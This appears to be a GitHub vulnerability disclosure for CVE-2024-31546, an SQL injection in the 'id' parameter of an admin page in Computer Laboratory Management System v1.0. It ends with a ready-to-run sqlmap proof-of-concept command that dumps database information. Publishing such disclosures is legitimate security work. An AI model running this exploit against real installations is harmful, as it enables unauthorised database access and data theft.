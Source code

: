 # CVE-2024-31546 SQLi in Computer Laboratory Management System
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System v1.0 allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ CVE ID: CVE-2024-31546
+ Vulnerable Endpoint: /php-lms/admin/damage/view_damage.php?id=1
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/damage/view_damage.php?id=1" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`
